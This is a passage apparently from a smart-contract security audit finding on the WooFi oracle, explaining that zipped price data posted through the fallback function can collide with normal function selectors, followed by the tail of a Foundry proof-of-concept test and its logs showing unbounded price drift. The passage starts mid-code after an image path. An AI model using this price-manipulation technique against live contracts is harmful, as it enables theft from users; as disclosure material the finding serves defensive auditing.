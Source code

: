 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
            console2.log("Unbound price drift in attack case: ", _toPercentString(drift));    
            vm.stopPrank();
        }
    }

    function _toPercentString(uint256 drift) internal pure returns (string memory result) {
        uint256 d_3 = drift % 10;
        uint256 d_2 = (drift / 10) % 10;
        uint256 d_1 = (drift / 100) % 10;
        uint256 d0 = (drift / 1000) % 10;
        result = string.concat(_toString(d0), ".", _toString(d_1), _toString(d_2), _toString(d_3), "%");
        uint256 d = drift / 10000;
        while (d > 0) {
            result = string.concat(_toString(d % 10), result);
            d = d / 10;
        }
    }

    function _toString(uint256 digital) internal pure returns (string memory str) {
        str = new string(1);
        bytes16 symbols = "0123456789abcdef";
        assembly {
            mstore8(add(str, 32), byte(digital, symbols))
        }
    }
}
```

And the logs:
```solidity
2024-03-woofi-swap\WooPoolV2> forge test --match-contract PriceManipulationAttackTest -vv
[⠆] Compiling...No files changed, compilation skipped
[⠰] Compiling...

Running 2 tests for test/foundry/PriceManipulationAttack.t.sol:PriceManipulationAttackTest
[PASS] testMaxPriceDriftInNormalCase() (gas: 158149)
Logs:
  Max price drift in normal case:  0.502%

[PASS] testUnboundPriceDriftInAttackCase() (gas: 648243)
Logs:
  Unbound price drift in attack case:  0.499%
  Unbound price drift in attack case:  0.998%
  Unbound price drift in attack case:  1.496%
  Unbound price drift in attack case:  1.994%
  Unbound price drift in attack case:  2.491%
  Unbound price drift in attack case:  2.988%
  Unbound price drift in attack case:  3.483%
  Unbound price drift in attack case:  3.978%
  Unbound price drift in attack case:  4.473%
  Unbound price drift in attack case:  4.967%

Test result: ok. 2 passed; 0 failed; 0 skipped; finished in 6.59ms

Ran 1 test suites: 2 tests passed, 0 failed, 0 skipped (2 total tests)
```


## Impact
````